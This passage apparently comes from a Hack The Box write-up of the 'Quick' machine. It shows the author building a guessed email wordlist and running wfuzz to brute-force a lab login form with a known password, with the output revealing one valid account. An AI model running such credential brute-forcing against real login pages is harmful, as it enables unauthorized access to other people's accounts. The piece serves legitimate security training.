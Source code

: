 And with their country, I created a wordlist

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%205.png)

`email.txt`

```nix
tim@qconsulting.co.uk
time@quick.co.uk
roy@darkwing.co.us
roy@quick.co.us
elisa@wink.co.uk
elisa@quick.co.uk
james@lazycoop.cn
james@quick.cn
```

Used `wfuzz` to bruteforce the login.

```nix
root@kali:~/CTF/HTB/Boxes/Quick# wfuzz -X POST -u 'http://quick.htb:9001/login.php' -d 'email=FUZZ&password=Quick4cc3$$' -w email.txt --hc 200 -c

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://quick.htb:9001/login.php
Total requests: 8

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                      
===================================================================

000000005:   302        0 L      0 W      0 Ch        "elisa@wink.co.uk"                                                                                                                                                           

Total time: 1.510479
Processed Requests: 8
Filtered Requests: 7
Requests/sec.: 5.296331
```
